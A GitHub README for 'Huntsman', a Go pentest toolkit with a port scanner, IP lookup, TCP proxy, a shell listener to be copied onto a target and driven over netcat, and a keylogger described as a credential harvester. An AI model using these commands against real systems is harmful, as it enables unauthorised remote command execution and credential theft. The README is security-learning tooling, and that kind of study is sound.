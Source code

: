 # Huntsman
A swiss army knife for all things security.
https://souvikhaldar.github.io/huntsman/

![](huntsman-main.jpg)

# Complete guide
[1.Installation](https://github.com/souvikhaldar/huntsman#installation)   
[2.Reverse shell](https://github.com/souvikhaldar/huntsman#reverse-shell)  
[3.Concurrent port scanning](https://github.com/souvikhaldar/huntsman#fast-concurrent-port-scanning)    
[4.IP location details](https://github.com/souvikhaldar/huntsman#location-details-of-ip-or-tcpdump)  
[5.TCP proxy](https://github.com/souvikhaldar/huntsman#run-a-tcp-proxy)   
[6.TCP Listener](https://github.com/souvikhaldar/huntsman#run-a-tcp-listener)   
[7.Keylogger](https://github.com/souvikhaldar/huntsman/blob/master/README.md#keylogger)



# Path
- [x] Port scanner    
- [x] IP information  
- [x] TCP proxy    
- [x] TCP listener  
- [x] HTTP server  
- [x] Reverse Shell listener  
- [x] Keylogger  
- [ ] SMB and NTLM expotation  
- [ ] Abusing Databases  
- [ ] Packet processing  
- [ ] Fuzzing and shellcode  
- [ ] Cryptography  
- [ ] Windows system analysis  
- [ ] steganography  
- [ ] CNC RAT  

# Inspiration
The inspiration of this tool are primarily the following two sources:
1. Pursuing [Advanced Exercutive Program in Cyber Security and Cyber Defense](https://talentsprint.com/pages/wip/iit-kanpur/v2.5/index.html) at the esteemed [c3i](https://security.cse.iitk.ac.in/) institution of [IIT Kanpur](https://www.iitk.ac.in/) and Professor [Sandeep Shukla](https://www.cse.iitk.ac.in/users/sandeeps/), [Rohit Negi](https://www.linkedin.com/in/rohit-negi-02856227/) and [Anand Handa](https://www.linkedin.com/in/anand-handa-391a61107/), who helped take baby steps in cyber security world.  
2. The excellent book [Black Hat Go: Go Programming For Hackers and Pentesters](https://www.amazon.in/Black-Hat-Go-Programming-Pentesters-ebook/dp/B073NPY29N) by Tom Steele, Chris Patten and Dan Kottmann. 


# Complete Guide
		
# Installation
There multiple ways in which you can install `huntsman` on your machine or a target machine.  
1. Install it using golang compiler using `go install` or `go build`
	
	1. [Install Golang](https://golang.org/doc/install)    
	2. `git clone git@github.com:souvikhaldar/huntsman.git`
	3. `cd huntsman`  
	4. `go install`  
2. Download and copy the binary from `/download` directory on $PATH.  
3. Use the `goinstaller.py` script.  
	```
	./goinstaller.py --help 
	Install go program for multiple OS and multiple architectures
	Run goinstaller.py --help for all options
	usage: goinstaller.py [-h]
			      [--os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}]
			      [--arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}]
			      [--source SOURCE] [--target TARGET]

	optional arguments:
	  -h, --help            show this help message and exit
	  --os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}
				The target OS. Eg. all,linux,darwin,windows,etc
	  --arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}
				The target's architecture. Eg. all,amd64,386,etc
	  --source SOURCE       The directory where source source is present
	  --target TARGET       The target dir where the binary needs to be stored
	```
	Eg. Compiling for **popular** OSes like Windows, Microsoft and Linux for 64-bit architecture can be done using
	`./goinstaller.py --target ./download --os popular --arch amd64`

# Transfer to a target
Once you've compiled huntsman for the target OS and arch, you can transfer it 
using `scp` or any tool of choice:  
Eg, transfering linux binary to target machine:  
`scp ./download/linux_amd64 username@address:location`

# Fast concurrent port scanning  
``` 
huntsman portScan --help
Concurrently scan the provided range (by default 0 to 65535) to check if any port is open

Usage:
  huntsman portScan [flags]

Flags:
  -e, --end int32       last port number (default 65535)
  -h, --help            help for portScan
  -s, --start int32     starting port number (default 1)
      --target string   IP/URL address of the machine to be scanned
  -t, --threads int32   the number of goroutines to execute at a time (default 100)
```

Example:  
`huntsman portScan --target abc.com`  

# Location details of IP or tcpdump  
```
huntsman ipinfo --help                                                                                              ✔  5244  03:05:00
Fetch the location information of the IP

Usage:
  huntsman ipinfo [flags]

Flags:
  -c, --config string     The path to the configuration JSON file
  -h, --help              help for ipinfo
      --ip string         IP address of the target
  -p, --persist           Do you want to store the response to mongo? If yes, please provide value to --config flag
  -s, --read-stream       Do you want to read from tcpdump output contineously?
  -t, --tcp-dump string   source file of tcpdump
```

There are three ways you can lookup location details of IP.
1. Lookup single IP or domain name. Eg. `huntsman ipinfo --ip netflix.com`  
2. Parse `tcpdump` log. Eg. `huntsman ipinfo --tcp-dump server.log`  
3. See the location details of incoming traffic in real tim. `huntsman ipinfo -s`   
If you want to store it to db, you can provide details in `config.json` at root dir, then use `huntsman ipinfo -s -p -c config.json`  
[Youtube link for the video demonstration](https://youtu.be/rdE3cGBT_wA)

![](2020-07-26-03-18-25.png)

# Run a TCP proxy

`huntsman proxy -s <local-port> -t <target-address> -p <target-port>`   

# Run a TCP listener

`huntsman listen --port=<port>`


# Reverse shell
First you need to compile the binary for the target machine using the 
`goinstaller.py` or anything of choice. Then preferably use `scp` to transfer
the binary to the target machine (see `Installation` section) then execute it
using `./<binary-name> reverseshell --port <port-number>`. Now the listener is
running to which you will be sending instructions to execute.   

We will be using [netcat](http://netcat.sourceforge.net/) as the client for 
sending the commands over the network.  
`nc <address-of-target> <port-number>`  
[Youtube link for the video demonstration](https://youtu.be/eE0k0GVZXyc)

# Keylogger 
A keylogger can log the keystrokes made by a user ,typically on a website. The logged keystrokes most of the times are crucial credentials of the users. Hackers use Credential Harvester (like keylogger) to steal your credentials.
Huntsman is the tool that contains a keylogger as well.    
Eg. `huntsman keylogger -w localhost:8192 -l 8192`   

This video is the demonstration for using huntsman as a keylogger. [Link to youtube video](https://youtu.be/BoPICq1MVhA)



